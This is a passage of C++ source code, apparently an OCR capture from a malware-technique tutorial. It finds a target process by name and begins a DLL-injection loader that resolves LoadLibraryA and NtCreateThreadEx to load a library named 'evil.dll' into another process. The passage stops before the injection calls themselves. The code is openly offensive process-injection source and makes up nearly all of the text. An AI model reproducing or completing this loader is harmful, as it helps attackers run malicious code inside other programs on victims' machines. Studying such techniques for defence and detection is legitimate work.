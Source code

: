```cpp
);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  DWORD pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE ht; // thread handle
  LPVOID rb; // remote buffer
  SIZE_T rl; // return length

  char evilDll[] = "evil.dll";
  int evilLen = sizeof(evilDll) + 1;
  
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  LPTHREAD_START_ROUTINE lb = 
  (LPTHREAD_START_ROUTINE) GetProcAddress(
    hKernel32, "LoadLibraryA");
  pNtCreateThreadEx ntCTEx = (pNtCreateThreadEx)GetProcAddress(
    GetModuleHandle("ntdll.dll"), "NtCreateThreadEx");
  
  if (ntCTEx == NULL) {
    CloseHandle(ph);
    printf("NtCreateThreadEx failed :( exiting...\n");
    return -2;
  }

  pid = findMyProc(argv[1]);
  if (pid == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
```